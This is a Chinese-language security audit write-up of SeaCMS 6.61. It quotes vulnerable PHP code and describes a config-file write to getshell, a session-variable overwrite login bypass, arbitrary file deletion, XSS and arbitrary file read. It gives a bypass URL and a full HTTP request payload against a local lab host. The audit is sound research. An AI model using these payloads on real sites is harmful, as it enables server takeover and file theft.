# seacms6.61（最新）

## 配置文件写入getshell

通过seay 源代码审计工具进行扫描，发现存在任意文件写入的两个文件。



打开其中一个admin_ip.php 5-20行。

```php
  if($action=="set")
  {
      $v= $_POST['v'];
      $ip = $_POST['ip'];
      $open=fopen("../data/admin/ip.php","w" );
      $str='<?php ';
      $str.='$v = "';
      $str.="$v";
      $str.='"; ';
      $str.='$ip = "';
      $str.="$ip";
      $str.='"; ';
      $str.=" ?>";
      fwrite($open,$str);
      fclose($open);
  }
```

这里的`$ip`和`$v`都可控，可以写入数据。






在admin/admin_ping.php也存在这个问题。

```php
  if($action=="set")
  {
      $weburl= $_POST['weburl'];
      $token = $_POST['token'];
      $open=fopen("../data/admin/ping.php","w" );
      $str='<?php ';
      $str.='$weburl = "';
      $str.="$weburl";
      $str.='"; ';
      $str.='$token = "';
      $str.="$token";
      $str.='"; ';
      $str.=" ?>";
      fwrite($open,$str);
      fclose($open);
  }
```



由于这个地方直接包含了这个修改的php文件。



所以效果就是下图这样。



## 变量覆盖导致登陆绕过

这里看下配置文件include/common.php。在28-42行存在很明显的`$$`变量覆盖问题。接受的时候判断是否开启了gpc，如果没有就addslashes转义一下。

```php
  function _RunMagicQuotes(&$svar)
  {
     if(!get_magic_quotes_gpc())
     {
        if( is_array($svar) )
        {
           foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
        }
        else
        {
           $svar = addslashes($svar);
        }
     }
     return $svar;
  }
  
  foreach(Array('_GET','_POST','_COOKIE') as $_request)
  {
     foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
  }
```

这里也对外部变量进行了检查，这里禁止了请求`cfg_`与`GLOBALS`,但是没有禁止_SESSION与其他全局变量，所以只要找到一处调用了session_start()函数的文件就可以写入任意session。

```php
  //检查和注册外部提交的变量
  foreach($_REQUEST as $_k=>$_v)
  {
     if( strlen($_k)>0 && m_eregi('^(cfg_|GLOBALS)',$_k) && !isset($_COOKIE[$_k]) )
     {
        exit('Request var not allow!');
     }
```

这里我们发现所有的管理后台页面都存在一个CheckPurview()函数。



在phpstorm下跟进这个函数，发现在check.admin.php中

```php
  session_start();
  function CheckPurview()
  {
     if($GLOBALS['cuserLogin']->getUserRank()<>1)
     {
        ShowMsg("对不起，你没有权限执行此操作！<br/><br/><a href='javascript:history.go(-1);'>点击此返回上一页&gt;&gt;</a>",'javascript:;');
        exit();
     }
  }
```

在这个函数中，又使用了getUserRank()函数，因此跟进这个函数。在check.admin.php中发现。

```php
  function getUserRank()
  {
     return $this->getgroupid();
  }
```

这里返回getgroupid()函数，看看这个函数干嘛。这个函数也在check.admin.php中，并且是为了获取gruopid

```php
  //获得用户的权限值
  function getgroupid()
  {
     if($this->groupid!='')
     {
        return $this->groupid;
     }
     else
     {
        return -1;
     }
  }
```

这里只是判断gruopid是否为空，这时候就要看看这个groupid是怎么来的了。

```php
  class userLogin
  {
     var $userName = '';
     var $userPwd = '';
     var $userID = '';
     var $adminDir = '';
     var $groupid = '';
     var $keepUserIDTag = "sea_admin_id";
     var $keepgroupidTag = "sea_group_id";
     var $keepUserNameTag = "sea_admin_name";
  
     //php5构造函数
     function __construct($admindir='')
     {
        global $admin_path;
        if(isset($_SESSION[$this->keepUserIDTag]))
        {
           $this->userID = $_SESSION[$this->keepUserIDTag];
           $this->groupid = $_SESSION[$this->keepgroupidTag];
           $this->userName = $_SESSION[$this->keepUserNameTag];
        }
  
        if($admindir!='')
        {
           $this->adminDir = $admindir;
        }
        else
        {
           $this->adminDir = $admin_path;
        }
     }
  
     function userLogin($admindir='')
     {
        $this->__construct($admindir);
     }
```

这里定义了`$keepUserIDTag = "sea_admin_id"`; `$keepgroupidTag = "sea_group_id"`;如果`isset($_SESSION[$this->keepUserIDTag])`不为空，则从`$_SESSION`的keepUserIDTag中获取值作为userID，从`$_SESSION`的keepgroupidTag获取值作为groupid。

因此下一步找到session_start调用的地方，我找的是video/index.php

因此最后payload

```
  http://172.16.244.129/1/seacms V6.61/upload/video/index.php?_SESSION[sea_group_id]=1&_SESSION[sea_admin_id]=1
```

这里我没有成功，但是我觉得是有变量覆盖的问题。如果大佬愿意指教，在此谢过了。

## 任意文件删除

通过sublime搜索关键函数unlink，在admin/admin_template.php:130行找到。



看看上下代码

```php
  elseif($action=='del')
  {
      if($filedir == '')
      {
          ShowMsg('未指定要删除的文件或文件名不合法', '-1');
          exit();
      }
      if(substr(strtolower($filedir),0,11)!=$dirTemplate){
          ShowMsg("只允许删除templets目录内的文件！","admin_template.php");
          exit;
      }
      $folder=substr($filedir,0,strrpos($filedir,'/'));
      if(!is_dir($folder)){
          ShowMsg("目录不存在！","admin_template.php");
          exit;
      }
      unlink($filedir);
      ShowMsg("操作成功！","admin_template.php?path=".$folder);
      exit;
  }
```

这里只做了`if(substr(strtolower($filedir),0,11)!=$dirTemplate)`显然可以绕过。我在根目录下创建了index.txt。


## xss漏洞

关键字搜索echo，在admin/templets/admin_collect_ruleadd2.htm处发现可利用

跟进一下这个`$siteurl`，发现是从admin/admin_collect.php来的。



这个文件中没有包含seacms自带的360webscan.php

```php
  <?php
  /*
      [seacms1.0] (C)2011-2012 seacms.net
  */
  require_once(dirname(__FILE__)."/config.php");
  require_once(sea_DATA."/mark/inc_photowatermark_config.php");
  require_once(sea_INC."/collection.func.php");
  CheckPurview();
```

于是构造poc





## 任意文件读取

还是在这里admin/templets/admin_collect_ruleadd2.htm。

```php
  <tr id="htmltable" style="<?php if(empty($showcode))echo 'display:none';?>">
    <th colspan="2"><textarea id="htmlcode" style="width:99%;height:200px;font-family:Fixedsys" wrap="off" readonly><?php 
    $content = !empty($showcode)?@file_get_contents($siteurl):'';
    $content = $coding=='gb2312'?gbutf8($content):$content;
    if(!$content) echo "读取URL出错";
    echo htmlspecialchars($content);
```

关键代码是这里`$content = !empty($showcode)?@file_get_contents($siteurl):`如果showcode不为空，那么读取`$siteurl`。

跟进下看看哪里包含了这个页面，结果在admin/admin_collect.php处找到

```php
  if($action=="addrule")
  {
      if($step==2){
          if(empty($itemname))
          {
              ShowMsg("请填写采集名称！","-1");
              exit();
          }
          $removecode = implode('|',$removecode);
          $listconfig = "{seacms:listrule cid=\"$id\" tname=\"$itemname\" intodatabase=\"$intodatabase\" getherday=\"$getherday\" siteurl=\"$siteurl\" playfrom=\"$playfrom\" downfrom=\"$downfrom\" autocls=\"$autocls\" classid=\"$classid\" removecode=\"$removecode\" inithit=\"$inithit\" pageset=\"$pageset\" pageurl0=\"$pageurl0\" pageurl1=\"$pageurl1\"  pageurl2=\"$pageurl2\" istart=\"$istart\" iend=\"$iend\" reverse=\"$reverse\"}";
          include(sea_ADMIN.'/templets/admin_collect_ruleadd2.htm');
          exit();
```

这里意思是如果页面传入`$action`为addrule，且`step`为2时，进入这个循环，并且包含templets/admin_collect_ruleadd2.htm。

所以我在根目录下创建了一个index.txt，并写入hello world尝试读取。



最后的payload

```
  POST /1/seacms%20V6.61/upload/houtai/admin_collect.php?action=addrule HTTP/1.1
  Host: 172.16.244.129
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:47.0) Gecko/20100101 Firefox/47.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
  Accept-Encoding: gzip, deflate
  Referer: http://172.16.244.129/1/seacms%20V6.61/upload/houtai/admin_collect.php?action=addrule
  Cookie: PHPSESSID=ua6ajr7ncm6gd7ikuqmmktf3s7; safecode=1; Tiny_autologin=5898644673VFIIAQQDAARSAAZcDVcGDQ1UBAZUW1JXBAYABgcDVVU; cck_lasttime=1527667187818; cck_count=0
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 320
  
  step=2&id=0&itemname=test&intodatabase=0&getherday=0&siteurl=•../index.txt&coding=gb2312&playfrom=&downfrom=&autocls=0&classid=0&inithit=0&pageset=0&pageurl0=&pageurl1=&istart=1&iend=1&pageurl2=&Submit=%E4%BF%9D%E5%AD%98%E4%BF%A1%E6%81%AF%E5%B9%B6%E8%BF%9B%E5%85%A5%E4%B8%8B%E4%B8%80%E6%AD%A5%E8%AE%BE%E7%BD%AE&showcode=1
```



